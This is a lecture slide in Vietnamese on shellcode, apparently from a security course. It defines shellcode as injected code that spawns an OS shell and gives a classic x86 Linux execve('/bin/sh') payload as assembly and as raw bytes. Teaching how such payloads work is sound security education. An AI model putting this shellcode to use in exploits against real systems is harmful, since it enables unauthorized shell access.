

# Shellcode
Shellcode: mã độc được chèn vào bộ nhớ để khai thác lỗ hổng
Tạo ra và thực thi lệnh shell của HĐH
Đây là cách thức phổ biến nhất để thực thi mã độc
xor %eax, %eax
push %eax
push $0x68732f2f
push $0x6e69622f
mov %esp, %ebx
mov %eax, %ecx
mov %eax, %edx
mov $0xb, %al
int $0x80
0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68 0x68 0x2f 0x62 0x69 0x6e 0x89 0xe3 0x89 0xc1 0x89 0xc2 0xb0 0x0b 0xcd 0x80
49